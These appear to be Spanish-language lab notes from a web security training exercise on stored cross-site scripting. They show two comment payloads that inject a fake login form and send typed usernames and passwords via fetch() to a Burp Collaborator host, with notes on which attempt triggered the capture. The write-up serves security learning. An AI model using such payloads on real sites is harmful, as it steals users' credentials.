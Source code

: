 ![[Pasted image 20220831203059.png]]


hago click en un post y al poner un comentario uso el payload:

%input name=username id=username>
%input type=password name=password onchange="if(this.value.length)fetch('https://7fnshjgz6go37glsv7ksq8dqrhx7lw.burpcollaborator.net', {
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

![[Pasted image 20220831205053.png]]

click en back to blog

![[Pasted image 20220831203803.png]]

pero no funciono, intentando con el payload oficial de la academia:

%input name=username id=username%
%input type=password name=password onchange="if(this.value.length)fetch('https://b8kgtl376yt26mk8dmwhp6w4qvwlka.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"%

![[Pasted image 20220901201108.png]]


![[Pasted image 20220901201203.png]]

click en back to blog y pongo a poll now en el collaborator client: de hecho ni hubo necesidad de dar clcik, el solo genero las trazas:

![[Pasted image 20220901201430.png]]


![[Pasted image 20220901201535.png]]


![[Pasted image 20220901201559.png]]



